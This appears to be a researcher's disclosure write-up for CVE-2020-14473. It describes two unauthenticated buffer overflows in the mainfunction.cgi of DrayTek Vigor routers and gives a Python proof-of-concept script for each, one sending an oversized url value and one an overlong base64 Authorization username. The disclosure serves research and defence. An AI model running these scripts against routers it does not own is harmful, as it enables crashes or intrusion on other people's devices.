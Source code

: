 # CVE-2020-14473 BOF

- Products: DrayTek Vigor2960/3900/300B
- Firmware: < version 1.5.1.1

This CVE contains 2 buffer-overflow without authorization.

## An unauthorized **buffer overflow**(about url) @ mainfunction.cgi

We found an unauthorized bof @ mainfunction.cgi, the vulnerability locates at mainfunction.cgi's handler "web_portal_bypass_ok" and "authuser" (you can visit this handler by "action=web_portal_bypass_ok"/"action=authuser"). 

While handling `url`, some special characters will be escaped and their length will be expanded from 1 to 3 or more. However, mainfunction.cgi ignores the change of length and put `url` into a buffer with length == len(raw(url)) but not len(escape(url)), which leads to a buffer overflow.

Here is the PoC:

```python=
# PoC Author: C0ss4ck,Swings,MozhuCY
import requests
from urllib.parse import quote
import base64

def poc(url):
    headers = {
        "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0"
    }

    url = url + "/cgi-bin/mainfunction.cgi"
    data = {
        "action": "web_portal_bypass_ok",
        "url":"http://"+"\x40"*0xFFF+"/",
        "is_android":"ture"
    }    
    res = requests.post(url=url, verify = False, data=data, timeout=(10, 15), headers=headers)

    if res.status_code != 200:
        print(res.text)
    else:
        print(res.text)
        return ""

poc("http://192.168.1.1")
```

## An unauthorized **buffer overflow**(about auth) @ mainfunction.cgi

We found an unauthorized bof @ mainfunction.cgi while accessing `cgi-bin/mainfunction.cgi/login`. The vulnerability will be triggered by a crafted K-V pair of `HTTP_Authorization` in HTTP Header such as `base64("A"*0x80+":"+"B"*0x80)` whose `username`'s length is bigger than 0x40.

While handling `HTTP_Authorization`, mainfunction.cgi decodes its value with base64 with a buffer whose size is 0x400, and after extracting `username` from the buffer, another buffer whose size is 0x40 will be filled with `username`, consequently, if username's length is bigger than 0x40, it will lead to a stack-based buffer overflow.

```python=
# PoC Author: C0ss4ck,Swings,MozhuCY
from sys import argv
from base64 import b64encode
import requests

buf = b64encode(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

header = {
    "Content-Type": "application/raw"
    "Authorization": "Basic "+buf
}
url = {
    "root": "http://192.168.1.1",
    "cgi": {
        "root": "/cgi-bin",
        "uri": {
            "mf": "/mainfunction.cgi",
        }
    }
}

def build_url(p1, p2=None):
    if p2:
        return url["root"] + url[p1]["root"] + url[p1]["uri"][p2]
    else:
        return url["root"] + url[p1]

session = requests.session()
session.post(build_url("cgi", "mf")+"/login", headers=header)
```

## Founder
- C0ss4ck @ NJUPT (email: c0ss4ck9989@gmail.com)
- Swings @ Chaitin (email: weiming.shi@chaitin.com)
- MozhuCY @ NJUPT (email: mozhucy@gmail.com)